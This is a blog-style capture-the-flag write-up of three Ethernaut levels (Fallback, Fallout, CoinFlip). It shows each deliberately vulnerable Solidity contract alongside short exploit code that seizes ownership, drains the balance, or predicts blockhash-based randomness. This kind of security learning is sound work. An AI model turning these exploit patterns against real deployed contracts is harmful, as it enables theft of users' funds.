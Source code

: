##########################
Let's play some Ethernauts
##########################
:slug: lets-play-some-ethernauts
:date: 2023-07-11
:summary: let's get back into this 'smart contract development' thing
:tags: programming
:author: capu
:featured_image:

Context
=======
`Ethernaut <https://ethernaut.openzeppelin.com/>`_ is a capture the flag smart
contract security game inspired by `overthewire wargames
<https://overthewire.org/wargames/>`_ (which are a lot of fun as well).

It's been a long time since I got any real amount of work done on smart
contracts, and I want to get back into it. Perhaps even focus more on security &
auditing this time around.

Plus, I'm in my *year of resourcefulness* so I want to have my skills & scripts
ready in case I need them.

Plumbing
========
After going down a very uninteresting rabbit hole of trying to replicate the
exact same environment locally that's available on the sepolia network, so I can
have solutions that work against the canonical Ethernaut contracts and also run
offline, I decided to just fork off from `some anon's work
<https://github.com/puffdood/ethernaut_foundry>`_ and off I went.

`The repo <https://github.com/juanpcapurro/ethernaut-foundry>`_ just runs the
contracts in some Foundry tests. It's not clean by any means, but for once I
want to get to work on the interesting stuff instead of spending an entire day
sweeping the floor. So let's get to it:

1: Fallback
===========

code
----

.. code-block:: solidity

    pragma solidity ^0.8.13;
    contract Fallback {
        mapping(address => uint256) public contributions;
        address payable public owner;

        constructor() {
            owner = payable(msg.sender);
            contributions[msg.sender] = 1000 * (1 ether);
        }

        modifier onlyOwner() {
            require(msg.sender == owner, "caller is not the owner");
            _;
        }

        function contribute() public payable {
            require(msg.value < 0.001 ether);
            contributions[msg.sender] += msg.value;
            if (contributions[msg.sender] > contributions[owner]) {
                owner = payable(msg.sender);
            }
        }

        function getContribution() public view returns (uint256) {
            return contributions[msg.sender];
        }

        function withdraw() public onlyOwner {
            owner.transfer(address(this).balance);
        }

        receive() external payable {
            require(msg.value > 0 && contributions[msg.sender] > 0);
            owner = payable(msg.sender);
        }
    }

solution
--------

At first it looks simple enough, but there's a small caveat: the fallback
function writes to storage, so the 2300 gas ``transfer`` forwards are not
enough, and you have to use an explicit ``call``

.. code-block:: solidity

    target.contribute{value: 100 wei}();
    payable(target).call{value: 100 wei, gas: 30000}(bytes(""));
    target.withdraw();

Fallout
=======

Code
----
.. code-block:: solidity

    contract Fallout {
        mapping(address => uint256) public allocations;
        address payable public owner;

        /* constructor */
        function Fal1out() public payable {
            owner = payable(msg.sender);
            allocations[owner] = msg.value;
        }

        modifier onlyOwner() {
            require(msg.sender == owner, "caller is not the owner");
            _;
        }

        function allocate() public payable {
            allocations[msg.sender] += msg.value;
        }

        function sendAllocation(address payable allocator) public {
            require(allocations[allocator] > 0);
            allocator.transfer(allocations[allocator]);
        }

        function collectAllocations() public onlyOwner {
            payable(msg.sender).transfer(address(this).balance);
        }

        function allocatorBalance(address allocator) public view returns (uint256) {
            return allocations[allocator];
        }
    }

Solution
--------
This one was harder before solidity 0.5. Back then, the constructor was defined as a function with
the same name as the contract. It was entirely possible to rename the contract but forget to rename
the constructor, and then you had a function open to the world where some important initialization
probably happened.

.. code-block:: solidity

    target.Fal1out();
    target.collectAllocations();

CoinFlip
========

Code
----
.. code-block:: solidity

    contract CoinFlip {
        uint256 public consecutiveWins;
        uint256 public lastHash;
        uint256 public FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

        constructor() {
            consecutiveWins = 0;
        }

        function flip(bool _guess) public returns (bool) {
            uint256 blockValue = uint256(blockhash(block.number - 1));

            if (lastHash == blockValue) {
                revert();
            }

            lastHash = blockValue;
            uint256 coinFlip = blockValue / FACTOR;
            bool side = coinFlip == 1 ? true : false;

            if (side == _guess) {
                consecutiveWins++;
                return true;
            } else {
                consecutiveWins = 0;
                return false;
            }
        }
    }

Solution
--------
This one is probably harder from the web interface, since the 'hack' is to
pre-compute the same logic the contract executes in order to predict the result,
and it's easiest to do so from a smart contract.

This being a foundry test and all, I had to use the cheatcodes to make the block
number advance:

.. code-block:: solidity

    function predictFlip() private view returns (bool){
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / 57896044618658097711785492504343953926634992332820282019728792003956564819968;
        return coinFlip == 1;
    }

    function solution(CoinFlip target) internal virtual {
        for (uint i = 0 ; i < 10 ; i++){
            target.flip(predictFlip());
            vm.roll(block.number+1);
        }
    }

This was fun. I should have a few more done by next week.
